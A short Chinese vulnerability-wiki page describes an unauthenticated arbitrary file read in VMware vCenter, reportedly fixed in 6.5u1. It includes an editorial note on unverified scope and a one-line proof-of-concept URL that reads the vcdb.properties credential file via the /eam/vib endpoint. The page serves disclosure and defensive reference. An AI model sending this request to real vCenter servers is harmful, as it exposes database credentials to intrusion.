

# VMware vCenter未授权任意文件读取

<!-- vulwiki-editorial:start -->
## 校订与适用边界

原文保留了 ptswarm 原始研究链接，并非完全无出处。修复于 6.5u1 是原文声明，具体受影响平台和上界仍需该研究及厂商说明确认。


### 本次正文校订

- 修复请求中文件扩展名截断。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 6.5u1已修复但缺明确受影响范围和平台
- 匿名读取需核原研究，图片未视检

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

### 原文链接

> https://twitter.com/ptswarm/status/1316016337550938122

在VMware vCenter中发现了一个未经身份验证的任意文件读取漏洞。VMware透露此漏洞已在6.5u1中修复，但未分配CVE




***\*POC\**:**

```
http://x.x.x.x/eam/vib?id=c:\programData\Vmware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```
